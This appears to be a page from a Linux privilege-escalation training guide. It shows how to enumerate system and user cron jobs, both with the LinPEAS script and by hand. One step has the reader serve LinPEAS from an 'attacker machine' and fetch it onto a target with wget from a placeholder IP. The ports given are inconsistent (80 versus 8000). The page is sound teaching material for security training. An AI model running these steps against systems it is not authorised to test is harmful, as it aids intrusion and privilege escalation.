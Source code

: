 ```yaml
---
legal-banner: true
---
```


### **Enumerating Cron Jobs Using LinPEAS**

1.  Set up an HTTP server on your attacker machine in the directory where `linpeas.sh` is located:  
    `python3 -m http.server 80`  
    
    ![](../../../../img/Linux-Environment/60.png)

2.  Use the following command on the target machine to download LinPEAS:  
    `wget http://[IP-ADRESS]:8000/linpeas.sh`
    
    ![](../../../../img/Linux-Environment/61.png)

3.  Run LinPEAS to enumerate system cron jobs:  

    ![](../../../../img/Linux-Environment/62.png) 

    ??? info "NOTE"

        LinPEAS enumerates the cron jobs and displays the same information found manually.

    ![](../../../../img/Linux-Environment/63.png)

    ??? info "NOTE"

        Red/Yellow in LinPEAS indicates a 95% chance that the finding can be exploited for privilege escalation

### **Enumerating System Cron Jobs Manually**

1.  The first place to check for cron jobs is in the system crontab file:  
    `cat /etc/crontab`  

    ![](../../../../img/Linux-Environment/64.png)

**Here we can see that two cron jobs are running on this host:**

1.  The first cron job runs every minute, executing the `overwrite.sh` script.

2.  The second cron job runs every minute, executing the `/usr/local/bin/compress.sh` script.

3.  If no cron jobs are found in the crontab file, or if these ones cannot be exploited, check for custom jobs in all of the cron directories:  
    `ls -l /etc/cron*`  
    
    ![](../../../../img/Linux-Environment/65.png)

    ??? info "NOTE"

        All five additional directories where cron jobs can execute from are shown. No custom cron jobs were found; these are all standard jobs commonly found by default

### **Enumerating User Cron Jobs Manually**

1.  After enumerating all the system crontabs, check for user cron jobs (hidden cron jobs):  
    `ls -l /var/spool/cron/crontabs`  
    
    ![](../../../../img/Linux-Environment/66.png)
    
    ??? info "NOTE"

        Standard users cannot access the directory where user cron jobs are stored.

     
2.  And when we check the /var/spool/cron folder permissions, we can see why.  
    `ls -l /var/spool/cron | grep "crontabs"`  

    ![](../../../../img/Linux-Environment/67.png) 

    ??? info "NOTE"

        The 'T' sticky bit is a permission bit set on a directory that allows only the owner or the root user to delete or rename the files within it.
